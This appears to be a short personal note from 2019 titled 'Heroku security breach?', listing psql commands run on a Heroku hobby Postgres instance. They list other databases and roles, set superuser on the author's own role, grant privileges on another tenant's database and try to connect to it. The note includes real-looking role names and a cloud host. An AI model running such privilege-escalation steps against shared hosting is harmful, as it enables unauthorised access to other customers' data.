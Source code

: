 # HEROKU SECURITY BREACH?

Last Edited: December 19, 2019 11:43 PM

Hobby Basic Heroku:

PostgreSQL 10.3 (Ubuntu 10.3-1.pgdg14.04+1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04.4) 4.8.4, 64-bit

List all Postgres Database Instances on Heroku

$ heroku run psql -d <DATABASE URI>

=># \l

Show Roles:

*rolname | rolsuper | rolinherit | rolcreaterole | rolcreatedb | rolcanlogin | rolreplication | rolconnlimit | rolpassword

$ SELECT * FROM pg_roles;

Heroku Super Roles

=># postgres, u7g79dnin8kgc5

ALL DATABASE USERS

$ SELECT * FROM ps_user;

UPDATE USER:

$ UPDATE pg_user SET usesuper = 't' WHERE usename = 'hlmvsamnvybvfm';

SHOW USER COLUMNS

$ \d pg_user

CONNECT TO ANOTHER DATABASE

$ \connect <database>;

Grant

$ GRANT ALL PRIVILEGES ON DATABASE <database-name> TO <MYUSER:hlmvsamnvybvfm>;

Try to connect to another Database

$ heroku run psql -d [postgres://](postgres://ihnnadpcwquohy)<username>:<password>[@](mailto:caf702d2f5f130f0e9dc07b169501701c1c22212b28001eb17de273704750440@ec2-174-129-22-84.compute-1.amazonaws.com)<host>:<port>/<database-name>

GRANT ALL PRIVILEGES ON DATABASE "d4kne923jnvpjo" to hlmvsamnvybvfm;